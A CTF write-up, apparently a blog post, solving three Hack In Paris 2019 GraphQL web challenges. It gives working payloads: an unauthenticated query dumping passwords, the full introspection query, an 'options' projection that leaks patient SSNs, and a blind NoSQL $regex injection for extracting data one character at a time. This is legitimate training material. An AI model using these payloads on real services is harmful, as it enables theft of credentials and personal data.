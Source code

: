 ```yaml
---
layout: post
title: HIP19 Writeup - Meet Your Doctor 1,2,3
---
```


Last wednesday I was in the Hack In Paris event for the 3rd time. As always there were some great conferences and challenges, and a new competition called "Hacker Jeopardy" which was very fun! During the Wargame I focused my time on Web challenges based on the `graphql` technology which was new to me, you will find below my writeups for the `Meet Your Doctor` challenges. 

![HIP Wargame 2019]({{ site.baseurl }}/images/hip19_wargame.png "HIP Wargame 2019")


## Meet your doctor 1 - 100 pts

URL: `http://meetyourdoctor1.challs.malice.fr`   
Goal : `Please help me find the Meet your doctor Admin password`   

Gobuster revealed a `/graphql` endpoint at the root of the website, browsing [http://meetyourdoctor1.challs.malice.fr/graphql](http://meetyourdoctor1.challs.malice.fr/graphql) gave us an access to an interactive GraphQL interpreter. On this page we can browse the documentation and `schema`. 

There, we can get the structure of the `Doctor` type.

{% highlight sql %}
type Doctor {
  id: ID!
  firstName: String!
  lastName: String!
  specialty: String!
  patients: [Patient!]
  rendezvous: [Rendezvous!]
  email: String!
  password: String!
}
{% endhighlight %}

It seems we don't need to authenticate with the mutation `signIn` to query `Doctor` data.

{% highlight sql %}
type Mutation {
  signIn(login: String!, password: String!): Token!
}
{% endhighlight %}

A simple query `{Doctors{id email password}}` was enough to extract all doctors' email and password. The flag was the password of the Admin doctor : `Now-_Let$|GetSeri0us`

![GraphQL UI]({{ site.baseurl }}/images/doctors1graphql.png "GraphQL UI")


## Meet your doctor 2 - 200 pts

URL: `http://meetyourdoctor2.challs.malice.fr`    
Goal: `I need to find the Patient 0 social security number! It is a matter of life and death`

In this challenge we didn't have access to an online "lab" to test and query the GraphQL. I made a tool to interact with the `/graphql` endpoint, it is open-source and available for free on [Github: https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).

Using `Introspection` we can still get the GraphQL schema, here is the URL-encoded version (Full version available at "[GraphQL Injection: enumerate-database-schema-via-introspection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection)").

{% highlight sql %}
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
{% endhighlight %}

It is strongly recommended to use `Firefox` to view the server response as it parses JSON an displays it nicely.

![Doctors schema]({{ site.baseurl }}/images/doctors2_schema.png "Doctors schema")

Using GraphQLmap, we got the following structure.

{% highlight sql %}
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

Query
        doctor[]: email (String!), 
        doctors[Doctor]: options (JSON!), 
        patients[Patient]: 
        patient[]: id (ID!), 
        allrendezvous[Rendezvous]: 
        rendezvous[]: id (ID!), 
Doctor
        id[ID]: 
        firstName[String]: 
        lastName[String]: 
        specialty[String]: 
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
Patient
        id[ID]: 
        firstName[String]: 
        lastName[String]: 
        doctor[Doctor]: 
        ssn[String]: 
Rendezvous
        id[ID]: 
        date[String]: 
        confirmed[Boolean]: 
Mutation
        signIn[Token]: login (String!), password (String!), 
Token
        token[String]: 
{% endhighlight %}

In this case `Doctors` have an `options` parameter which accepts JSON. It allows us to specify items linked to the doctors' structure and project their data into the GraphQL response. I saw the following picture in a blog post, it helped me a lot to understand the structure of the query.

![GraphMap]({{ site.baseurl }}/images/graphmap.png "GraphMap")

We can query `{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}`, don't forget to escape the `"` inside the `options`.

{% highlight json %}
GraphQLmap> {doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
{
    "firstName": "Admin",
    "id": "5d089b25f48c29003191e3b5",
    "lastName": "Admin",
    "patients": [
        {
            "ssn": "b16cff8b-4a5a-41c8-8545-d9880fd7aae5"
        }
    ]
} 
{% endhighlight %}

There we go, the second flag was `b16cff8b-4a5a-41c8-8545-d9880fd7aae5`.     
An asciinema version is available at [https://asciinema.org/a/sbqGXnWXl5Y6YeQr0wzsCzQli](https://asciinema.org/a/sbqGXnWXl5Y6YeQr0wzsCzQli)


## Meet your doctor 3 - 300 pts

URL: `http://meetyourdoctor3.challs.malice.fr`
Goal: `I need to find the Patient 0 social security number! It is a matter of life and death`

Things are getting complicated, we can dump the schema as the `Introspection` is set to false. Based on the previous challenge we can guess the structure is the same. Unfortunately we can't reuse the same query to extract the `ssn`, we get the following error.

{% highlight bash %}
Field "doctors" argument "search" of type "JSON!" is required, but it was not provided.
{% endhighlight %}

This means there is a `search` argument in the doctor structure, something like `doctors[Doctor]: options (JSON!), search(JSON!)`. Pete Correy explains how to exploit the search argument in his blog post [GraphQL NoSQL Injection Through JSON Types](http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/).

Let's try a simple NoSQL injection with fields we know such as `lastName`.

{% highlight json %}
OK: {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi\"} }"){firstName lastName id}}
KO: {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admia\"} }"){firstName lastName id}}
{% endhighlight %}

Since the challenge I added a way to test the regex quickly in GraphQLmap using the `GRAPHQL_CHARSET` keyword inside a GraphQL query:

{% highlight json %}
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}     
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}    
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}    
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{% endhighlight %}

The injection worked, now we can re-use the payload from the challenge #2 and extract the `social security number` of the patient 0, which is the patient of the `Admin` doctor. The query was as follows, where we had to replace `CHARACTER_FROM_THE_FLAG` to test characters from the flag.

{% highlight json %}
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \"^CHARACTER_FROM_THE_FLAG\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
{% endhighlight %}

Obviously we scripted the data extraction in Python, the script below will get the last flag : `4f537c0a-7da6-4acc-81e1-8c33c02ef3b`.
